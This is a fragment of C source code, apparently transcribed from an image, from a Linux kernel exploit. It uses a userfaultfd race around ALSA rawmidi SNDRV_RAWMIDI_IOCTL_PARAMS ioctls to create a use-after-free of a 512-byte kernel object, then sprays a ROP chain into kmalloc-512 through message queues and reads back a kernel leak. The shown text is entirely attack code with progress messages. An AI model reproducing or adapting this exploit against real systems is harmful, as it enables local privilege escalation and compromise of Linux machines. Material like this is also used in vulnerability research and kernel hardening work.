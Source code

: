 ```c
    puts("[+] Registering one page userfaultfd"); 

    /* Registering mapped area */
    register_userfaultfd((uint64_t *) ADDRESS_PAGE_FAULT2);

    puts("[+] Raising up the handler for userfaultfd");

    /* Handler for userfault */
    pthread_create(&thread[2], NULL, handler_userfaultfd, (void *) &uffd);

    /* Create one object by size 512 */
    srp.stream = SNDRV_RAWMIDI_STREAM_OUTPUT;
    srp.buffer_size = 500;
    srp.avail_min = 1;
    err = ioctl(fd2, SNDRV_RAWMIDI_IOCTL_PARAMS, &srp);

    puts("[+] Created one object by size 512");

    if (err < 0)
    {
        perror("[-] ioctl");
        exit(0);	
    }
    args.addr = addr + PAGE_SIZE - 0x18;
    args.size = 0x18 + 0x8;
    args.fd= fd2;

    /* Blocking before object created by size 512 in userfault */
    pthread_create(&thread[3], NULL, (void *) trigger_userfaultfd, &args);
    puts("[+] Triggering userfaultfd");

    /* Deleting before object created by size 512 generating an UAF */
    srp.buffer_size = 90;
    err = ioctl(fd2, SNDRV_RAWMIDI_IOCTL_PARAMS, &srp);

    puts("[+] Deleting before object created by size 512 generating UAF");

    if (err < 0)
    {
        perror("[-] ioctl");
        exit(0);	
    }

    /* rop spray in kmalloc-512 */
    char secondary_buf[0x1ea - 0x30];
    memset(secondary_buf, 0, sizeof(secondary_buf));
    build_rop(secondary_buf);

    printf("[*] Waiting for userfaultd to finish ..\n");
    release_page_fault = true;

    for(int i = 0; i < 0x20; i++)
    {
        send_msg(qid[1], secondary_buf, 0x1ea, 0x1337);
    }

    puts("[+] Spray ROP Chain in kmalloc-512");

    while(release_page_fault == true);
    printf("[+] Page fault lock released\n");

    uint64_t *leak2 = recv_msg(qid[1], 0x2000);
    next = *(leak2 + (0x1d8 / sizeof(uint64_t))) + 0x30;
```